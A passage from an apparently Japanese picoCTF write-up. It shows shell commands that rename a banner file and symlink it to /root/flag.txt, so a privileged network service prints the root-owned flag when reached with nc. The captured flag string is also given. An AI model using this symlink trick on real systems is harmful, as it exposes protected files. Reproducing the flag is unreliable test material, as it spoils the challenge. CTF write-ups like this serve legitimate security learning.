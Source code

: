 ```bash
player@challenge:~$ mv banner banner.bak
mv banner banner.bak
player@challenge:~$ ln -s /root/flag.txt banner
ln -s /root/flag.txt banner
```

この状態でもう一度ncすると、フラグゲット。

```bash
% nc tethys.picoctf.net 57443
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_8126c9b0}

what is the password?
```

<aside style="padding: 10px; border-radius: 5px; border: 1px solid #eee; background-color: transparent; width: 800px;">
⛳ picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_8126c9b0}

</aside>

### SansAlpha

<img src="/img/2024/03-27/Untitled%2047.png" width="550px" height="auto"> 
